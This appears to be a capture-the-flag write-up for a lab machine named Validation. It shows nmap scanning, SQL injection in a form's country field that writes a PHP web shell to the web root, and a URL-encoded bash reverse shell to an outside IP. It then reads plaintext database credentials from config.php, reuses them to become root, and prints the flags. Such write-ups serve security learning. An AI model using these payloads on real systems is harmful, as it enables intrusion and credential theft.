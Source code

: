 ![Trick.PNG](/assets/Validation/Validation.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.116
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.116
```

**Output**
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4566/tcp open  kwtc
8080/tcp open  http-proxy
```

3. Visit web page

![web.PNG](/assets/Validation/web.PNG)


4. Analyze the petition with **BurpSuite**

![petition.PNG](/assets/Validation/petition.PNG)


5. The field to inject sql in `username=test&country=Brazil` is `country=Brazil`


6. In this case we need to create a file in the server and execute this, you can create a **revshell.php**

* If you create a file you need to put `/var/www/html` before

Example:

```sql
username=test&country=Brazil' union select "test" into outfile "/var/www/html/test.txt"
```

---

You can access to this file in url like this

![url.PNG](/assets/Validation/url.PNG)


7. Create a malicious php file to after can get access a rev shell
```bash
username=est&country=Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/rev.php"-- -
```

8. Yep!, you can execute commands

![cmd.PNG](/assets/Validation/cmd.PNG)

9. Execute a command to get a **reverse shell** and listen with **nc**

* In head of petition add this:
```bash
GET /rev.php?cmd=bash%20-c%20%27bash%20-i%20%3E&%20/dev/tcp/10.10.14.12/443%200%3E&1%27 HTTP/1.1
```

* The command to execute is `bash -c 'bash -i >& /dev/tcp/<vpn>/443 0>&1'`, but, in the petition is urlencode.


10. You access to target machine
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Validation]
└─| nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.116] 60628
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ 
```

11. Cat a **user flag**
```bash
www-data@validation:/home/htb$ pwd
pwd
/home/htb
www-data@validation:/home/htb$ cat user.txt
cat user.txt
9b1aa7e011a593c30f2e92019a3ca2a2
```


12. In path `/var/www/html` read a **config.php** file (Sometimes this file contains credentials in plain text)
    
```bash
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

13. Try to connect to root with this password
```bash
www-data@validation:/var/www/html$ su root
su root
Password: uhc-9qual-global-pw
whoami
root
```

14. Read **root flag** in path `/root`
```bash
cat root.txt
6f4e5e15a2133fa1c07f39364cf10601
```